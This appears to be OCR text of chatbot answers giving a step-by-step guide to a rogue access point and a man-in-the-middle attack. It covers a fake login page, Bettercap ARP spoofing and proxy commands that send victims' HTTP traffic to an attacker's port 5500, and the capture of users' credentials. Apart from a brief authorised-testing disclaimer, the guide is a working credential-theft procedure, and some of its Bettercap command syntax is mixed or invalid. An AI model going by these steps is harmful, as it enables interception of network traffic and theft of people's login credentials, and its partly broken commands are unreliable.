 7. **Create Fake Login Page**:
   Set up a web server (Apache, Nginx, etc.) and create a fake login page. Place it in the appropriate web directory.

8. **Perform MITM Attack**:
   Now that your rogue access point is set up, any device connecting to it will be redirected to your fake login page. You can use tools like Ettercap or Bettercap to intercept traffic and perform further attacks.

Remember, use this knowledge responsibly and only within the scope of your authorized testing. Unauthorized access or manipulation of network traffic is illegal and unethical.

# 2

Certainly! Here's a step-by-step guide with code snippets to perform a man-in-the-middle (MITM) attack and redirect users to your login page running on port 5500:

1. **Choose a MITM Tool**: In this example, let's use Bettercap.

2. **Install Bettercap**:
   ```bash
   sudo apt-get update
   sudo apt-get install bettercap
   ```

3. **Start Bettercap with ARP Spoofing**:
   ```bash
   sudo bettercap -X --sniffer --proxy
   ```

4. **Set Up Proxy Module in Bettercap**:
   Once Bettercap is running, set up the proxy module to intercept and redirect HTTP traffic:
   ```bash
   proxy on
   set http.proxy.address <your_Kali_IP>
   set http.proxy.port 5500
   ```

5. **Start ARP Spoofing**:
   Start ARP spoofing to redirect traffic from victim devices to your Kali Linux machine:
   ```bash
   arp.spoof on
   ```

6. **Capture Credentials**:
   With ARP spoofing and the proxy module enabled, all HTTP traffic passing through your Kali Linux machine will be intercepted and redirected to your login page running on port 5500. Users entering their credentials will unwittingly send them to your server.

7. **Analyze Captured Credentials**:
   You can analyze the captured credentials either by logging them to a file or by inspecting the traffic in real-time using Bettercap.

Remember to replace `<your_Kali_IP>` with the actual IP address of your Kali Linux machine. Additionally, ensure that your login page is properly configured to handle incoming requests and capture user credentials. Always use this knowledge responsibly and ethically, and only perform security testing on networks and systems for which you have explicit permission. Unauthorized access or interception of network traffic is illegal and unethical.
